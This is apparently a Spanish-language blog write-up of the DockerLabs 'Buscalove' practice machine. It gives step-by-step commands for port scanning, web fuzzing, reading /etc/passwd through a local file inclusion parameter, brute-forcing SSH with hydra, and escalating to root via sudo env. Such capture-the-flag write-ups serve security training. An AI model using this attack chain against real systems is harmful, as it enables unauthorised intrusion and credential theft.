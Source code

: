 ```yaml
---
layout: post
title: "Buscalove"
date: 2024-09-02
 14:20:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Buscalove </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.**  Descubriendo los puertos abiertos y servicios que corren, tenemos el ssh corriendo y el servicio web de apache.

`sudo nmap -p- --open -T5 --min-rate=5000 -sCV -n -Pn 172.18.0.2`

![img](/notas/public/img/dockerlabs/buscalove/nmap.png){:.margin}

**2\.** En la web corre apache por defecto, asi que hacemos un poco de fuzzing web, vemos una ruta wordpress.

`gobuster dir -u http://172.18.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/buscalove/gobuster.png){:.margin}

**3\.** Hacemos otra vez fuzzing ahora dentro de wordpress, encontramos un index.php.

`gobuster dir -u http://172.18.0.2/wordpress/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

`http://172.18.0.2/wordpress/index.php`

![img](/notas/public/img/dockerlabs/buscalove/gobusterwordpress.png){:.margin}

**4\.** Hacemos fuzzing de parametros en busca de un LFI, wfuzz nos reporta un parametro valido.

`wfuzz -c --hc=400 --hl=40 -w /usr/share/wordlists/rockyou.txt 'http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../../etc/passwd'`

![img](/notas/public/img/dockerlabs/buscalove/wfuzz.png){:.margin}

**5\.** Vamos a la web para ver el LFI, presionamos ctrl+u para visualizar mejor, filtro los usuarios disponibles.

`http://172.18.0.2/wordpress/index.php?love=../../../../../../../etc/passwd`

![img](/notas/public/img/dockerlabs/buscalove/codelfi.png){:.margin}

**6\.** Toca hacer fuerza bruta al ssh con los usuarios disponibles, en este caso el que me dio resultado fue el usuario rosa.

`hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 64`

![img](/notas/public/img/dockerlabs/buscalove/hydra.png){:.margin}

**7\.** Nos conectamos por ssh como usuario rosa.

`ssh rosa@172.18.0.2`

![img](/notas/public/img/dockerlabs/buscalove/sshrosa.png){:.margin}

**8\.** Encuentro un dos binarios que podemos ejecutar como cualquier usuario, revisamos la carpeta de root, vemos que el archivo secreto contiene un hexadecimal.

`sudo -l`

`sudo -u root /usr/bin/ls -la /root/`

`sudo -u root /usr/bin/cat /root/secret.txt`

![img](/notas/public/img/dockerlabs/buscalove/sudolrosa.png){:.margin}

**9\.** Para decodear usamos [cyberchef](https://gchq.github.io/CyberChef/), deducimos que es una contraseña y del otro usuario que tenemos que es pedro.

![img](/notas/public/img/dockerlabs/buscalove/cyberchef.png){:.margin}

**10\.** Migramos al usuario pedro, revisamos los permisos sudo y encontramos un binario con todos los permisos.

`su pedro`

`sudo -l`

![img](/notas/public/img/dockerlabs/buscalove/sudolpedro.png){:.margin}

**11\.** Escalando privilegios a root, revisamos la utilidad de env en [gtfobins](https://gtfobins.github.io/gtfobins/env/#sudo).

`sudo -u root env /bin/sh`

![img](/notas/public/img/dockerlabs/buscalove/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>